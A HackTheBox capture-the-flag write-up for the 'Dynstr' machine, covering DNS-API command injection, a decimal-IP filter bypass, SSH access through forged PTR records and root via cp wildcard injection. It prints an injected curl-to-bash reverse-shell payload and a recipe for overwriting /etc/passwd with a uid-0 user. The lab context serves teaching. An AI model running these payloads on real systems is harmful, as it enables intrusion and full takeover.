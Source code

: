 ```yaml
---
title: dynstr Writeup [HTB]
tags: [HackTheBox]
image: /assets/images/dynstr/dynstr.png
published: true
banner: true
---
```


Dynstr is a Linux based machine that was active since June 12th of 2021 to October 16th, we will find a service for giving dynamic DNS, just like noip and who claim to use the same API, testing it we find out that it is vulnerable to command injection, bypass a small issue writing our IP without dots and getting a shell inside the machine, once inside the machine we find a SSH key inside the saved output of strace, but this key can only be used from certain domains, so we manipulate the PTR records on the DNS service to be able to use it, finally we see that we can execute a script with sudo rights that copies some files using a wildcard, so we abuse this to overwrite passwd file, add a user with uid 0 and finish with the machine.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.244
nmap -sC -sV -p 53,22,80, -Pn -o scan.txt 10.10.10.244

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find three ports open, SSH, DNS running with ISC BIND, and a webpage, so lets check the webpage.

![](/assets/images/dynstr/website.png)

The site says that they are giving a service like no-ip, using the same api, they give us the domains were we can get a subdomain and some credentials to use, so first we go to [noip](https://www.noip.com/integrate/request) site to undertand how this site is supposed to work, there we see what parameters are accepted and it says thay they use basic authentication, so let's try to get a subdomain and use nslookup to see if it gets set.

![](/assets/images/dynstr/noip.png)
![](/assets/images/dynstr/nslookup.png)

# [](#header-1)Gaining Access

As we see the site is working as intended, we get the subdomain set to our address, now let's test this API, since unless they are friends or something with the owners of noip, they should have just mimic the API, and it could have a lot of vulnerabilities, we see that if we put an invalid character the update fails.

![](/assets/images/dynstr/broken.png)

Testing with some common command injection payloads we get nothing, so let's use ffuf to see which characters don't break the update, `ffuf -u 'http://10.10.10.244/nic/update?hostname=aFUZZa.no-ip.htb&myip=127.0.0.1' -H "Authorization: Basic ZHluYWRuczpzbmRhbnlk" -w ~/tools/SecLists-master/Fuzzing/special-chars.txt -fs 22`.

![](/assets/images/dynstr/ffuf.png)

We don't have many characters, but we hane one useful, the backtick, for example if we run "echo a\`id -u\`a", we will get the output of the command in the middle of the two As.

![](/assets/images/dynstr/backtick.png)

So let's try running id.

![](/assets/images/dynstr/idtest.png)

It failed... But we saw that one doesn't break the update, so maybe the value got breaks the update since it can be large with some symbols that break it, let's try `id -u root`, we know that the output of that command is "0", so it should create a domain with that name.

![](/assets/images/dynstr/idroot.png)
![](/assets/images/dynstr/nsroot.png)

It worked!, we have command execution, so let's use the usual approach fetch a bash reverse shell and pipe it to bash, we saw that the pipe broke the update, but it wasn't because the character was blocked, but it caused some kind of error on the server, since we will be executing commands it doesn't matter.

![](/assets/images/dynstr/curl.png)

Here we face another issue, before executing our command it seems like there is a validation filter that checks that after the first dot on the request a valid domain is set, this blocks any interaction that we could try with out machine, but like everything we can bypass it, to do it we have to go back to networking lessons, if we remember an IP is no more than the decimal representation of the octets that forms it.

![](/assets/images/dynstr/octet.jpg)

So let's test with localhost, 127.0.0.1, if we represent it on binary we get, 01111111 00000000 00000000 00000001, well we can join these octets and convert them to a decimal number, the result is 2130706433, why do we care?, well let's try to ping it.

![](/assets/images/dynstr/ping.png)

It's magic! As we see the machine understands it, and pings 127.0.0.1, se we don't need any dot to reach our IP, to avoid making the math we can use some [sites](https://www.ipaddressguide.com/ip) that make the job for us. So now we execute, "curl -u dynadns:sndanyd 'http://10.10.10.244/nic/update?hostname=subt\`curl+168431658:8000/shell|bash\`e.no-ip.htb&myip=10.10.16.42'", and it will hang because our reverse shell will be executed.

![](/assets/images/dynstr/revshell.png)

![](/assets/images/dynstr/shell1.png)

It would've been easier to use base64 to put our payload directly, but I wanted to bypass the "filter".

# Lateral Movement

Exploring the machine we get to /home/bindmgr/support-case-C62796521, were we find the output of strace saved, and if we read "strace-C62796521.txt", we will find a ssh key.

![](/assets/images/dynstr/stracessh.png)

If we try to connect to the machine with that key we won't be able to, and it isn't because the key isn't valid, to know the reason we check the authorized_keys file.

![](/assets/images/dynstr/authorized.png)

On this file we can set more that just the allowed keys, we can also specify from were these keys are allowed, and on this case only machines that belongs to a .infra.dyna.htb domain can connect, it must be using its own DNS server to validate the IPs belonging to that domain to validate the use of the key, so let's see what the update file does.

![](/assets/images/dynstr/update.png)

As we though it makes a validation of the domain after the first dot found, after that it runs nsupdate to add the IP to the subdomain, to validate its access it uses "/etc/bind/ddns.key" as key file, but if we go to "/etc/bind", we can find another key file, infra.key, this is the key that we need to edit .infra.dyna.htb domains.

![](/assets/images/dynstr/infra.png)

With that key we can add ourselves to a domain under infra.dyna.htb, just like the update file does.

![](/assets/images/dynstr/updateinfra.png)

Anyways we still can't access to the machine with the SSH key, why? Well when we connect to the machine it only knows our IP, we can't say from which domain we are coming, we can validate that with nslookup, were if we try to search for our IP it won't find it.

![](/assets/images/dynstr/revns.png)

So we need to understand DNS a little better, what we added is an A record, this record is used to convert a domain into an IP, but it doesn't work backwards, to do so there is another record, the PTR record, so we add ourselves to that record and as we see now we can ask for our IP.

![](/assets/images/dynstr/nsptr.png)
![](/assets/images/dynstr/revdns.png)

And finally we can connect using the SSH key, and retrieve user.txt.

![](/assets/images/dynstr/shell2.png)

# [](#header-1)Privilege Escalation

We check if we can run anything with sudo.

![](/assets/images/dynstr/sudo.png)

We see that we can run `/usr/local/bin/bindmgr.sh` as root, and the line that we can abuse of is this one: `cp .version * /etc/bind/named.bindmgr/`, the script checks that .version file contains a number and that it is greater than the number inside .version located at "/etc/bin/named.bindmgr/", so to exploit this we will create two directories, 1 and 2, inside 1, we will create a symlink to passwd, `ln -s /etc/passwd passwd`, and a file called "-P", `touch -- -P`, this will make cp to copy the symlink file as a symlink instead of copying the original file, then inside 2, we will copy the passwd file and add our own user with id 0, to generate the password we can use openssl, `openssl passwd -1 -salt 123 hacked`, both directories must have a .version file, and the one inside 2 has to have a number greater than the one inside 1, verifying the files.

![](/assets/images/dynstr/files.png)

Now we go to 1, and execute, `sudo /usr/local/bin/bindmgr.sh; cd ../2 ;sudo /usr/local/bin/bindmgr.sh`, and if we check the passwd file we will ser our user inside there.

![](/assets/images/dynstr/passwd.png)

Now if we su to that user we will get access as root and finish with the machine.

![](/assets/images/dynstr/root.png)